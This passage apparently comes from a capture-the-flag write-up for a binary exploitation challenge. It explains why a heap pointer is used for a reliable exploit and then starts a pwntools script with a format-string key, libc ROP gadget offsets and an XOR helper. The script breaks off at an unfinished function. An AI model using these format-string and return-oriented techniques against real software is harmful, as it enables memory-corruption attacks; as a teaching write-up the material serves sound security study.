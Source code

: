 ![ret_ctx](writeup/ret_ctx.png)

The highlighted pointer is the one I was mentioning above which will be at `[rsp+0x10]`
when the gadget will be executed.

#### Notes

For those of you watching carefully you might have noticed that `rsi` contains
the pointer on the stack to the encrypted message (which of course we control),
and may have thought to use that with easier gadgets. The problem is that
calling any function will make it reclaim the stack space, eventually
overwriting our controlled input. Therefore to have a reliable exploit I chose
to use the heap pointer instead.

## Exploit

```python
```python
#!/bin/env python3

from pwn import *

#
# INIT
#
libc = ELF(os.path.join(os.path.dirname(__file__), "glibc/libc.so.6"), False)

#
# UTILS
#
KEY = b"%9$p%7$n"
# GADGETS
MOV_RDI_RSP0X10_CALL_RBX = 0x00043817   # mov rdi, [rsp+0x10]; mov rdx, rbp; mov rsi, r12; call rbx;
POP_RBX = 0x001bbbc3                    # pop rbx; ret;

#
# FUNCTIONS
#
def encrypt(msg):
    cip_msg = b""
    for i in range(len(msg)):
        cip_msg += (msg[i] ^ KEY[i % len(KEY)]).to_bytes(1, "little")
    return cip_msg

def add_msg(msg):
```